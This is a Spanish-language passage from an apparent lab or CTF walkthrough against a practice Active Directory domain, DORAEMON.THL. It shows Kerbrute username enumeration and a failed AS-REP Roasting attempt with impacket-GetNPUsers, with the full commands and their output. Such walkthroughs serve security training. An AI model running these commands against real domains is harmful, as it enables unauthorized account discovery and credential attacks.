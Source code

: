 La idea es identificar a los usuarios que están registrados en la máquina víctima, y eso lo podemos hacer con la herramienta **Kerbrute**.

Aquí la puedes obtener:
* <a href="https://github.com/ropnop/kerbrute" target="_blank">Repositorio de ropnop: kerbrute</a>

Veamos cuáles existen:
```bash
./kerbrute_linux_amd64 userenum -d DORAEMON.THL --dc 192.168.10.5 AD_users.txt
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 04/09/25 - Ronnie Flathers @ropnop

2025/04/09 17:50:18 >  Using KDC(s):
2025/04/09 17:50:18 >  	192.168.10.5:88

2025/04/09 17:50:18 >  [+] VALID USERNAME:	 Shizuka@DORAEMON.THL
2025/04/09 17:50:18 >  [+] VALID USERNAME:	 administrador@DORAEMON.THL
2025/04/09 17:50:18 >  [+] VALID USERNAME:	 Suneo@DORAEMON.THL
2025/04/09 17:50:18 >  [+] VALID USERNAME:	 invitado@DORAEMON.THL
2025/04/09 17:50:18 >  [+] VALID USERNAME:	 Doraemon@DORAEMON.THL
2025/04/09 17:50:18 >  [+] VALID USERNAME:	 Nobita@DORAEMON.THL
2025/04/09 17:50:18 >  [+] VALID USERNAME:	 Gigante@DORAEMON.THL
2025/04/09 17:50:18 >  Done! Tested 10 usernames (7 valid) in 0.054 seconds
```
Excelente, los únicos usuarios que no existen son **Dorayaki1 y Estepona**.

Ahora bien, podríamos intentar aplicar el **ataque AS-REP Roasting**, pero no funcionará:
```bash
impacket-GetNPUsers -no-pass -usersfile AD_users.txt DORAEMON.THL/
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

/usr/share/doc/python3-impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] User Administrador doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User administrador doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User invitado doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Nobita doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User nobita doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Shizuka doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User shizuka doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Suneo doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User suneo doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Gigante doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User gigante doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Doraemon doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User doraemon doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```
Ningún usuario tiene activo el permiso **UF_DONT_REQUIRE_PREAUTH**.
